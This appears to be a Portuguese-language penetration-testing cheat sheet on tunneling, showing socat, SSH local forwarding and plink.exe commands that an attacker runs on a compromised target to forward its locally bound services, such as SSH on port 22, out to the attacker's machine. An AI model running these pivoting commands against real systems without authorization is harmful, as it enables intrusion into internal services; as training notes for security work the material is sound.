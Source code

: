 # Tunneling  
É uma técnica de encapsulamento de pacotes utilizado em redes de computadores para transportar protocolos que muitas vezes não são compatíveis com aquela rede, fornecendo uma conexão eficiente e segura.  

Durante um ataque podemos utilizar o tunelamento para nos conectar a serviços na máquina do alvo que estão disponíveis apenas localmente.  

Verificar portas e serviços ativos:
```
netstat -nlpt
```
## Socat  
Na máquina atacante, utilize o socat para escutar uma porta e redirecionar os dados para outra.
```
socat TCP-LISTEN:8443,reuseaddr,fork TCP-LISTEN:2222,reuseaddr
```

Na máquina alvo inicie o redirecionamento do serviço rodando na porta 22 para a porta 8443 na maquina atacante:
```
socat TCP4:$LHOST:8443 TCP4:127.0.0.1:22
```

## SSH  
Para realizar a técnica de tunneling utilizando o SSH, acrescente a opção `-L` com a porta local que irá receber os dados, o IP do alvo e a porta do serviço que irá enviar os dados. 
```
ssh $USER@$RHOST -p $RPORT -i $PRIV_KEY -L $LPORT:$RHOST:RPORT
```

## Windows  

No Windows podemos utilizar o plink.exe para realizar o tunelamento de um serviço na máquina local do alvo.  
Para realizar o tunelamento devemos primeiro iniciar o serviço de SSH na máquina atacante, depois subir o plink.exe no alvo e realizar uma conexão via SSH com a máquina atacante.  
```
plink.exe -ssh -l $USER -pw $PASS -R $LHOST:$LPORT:127.0.0.1:$RPORT $LHOST
```

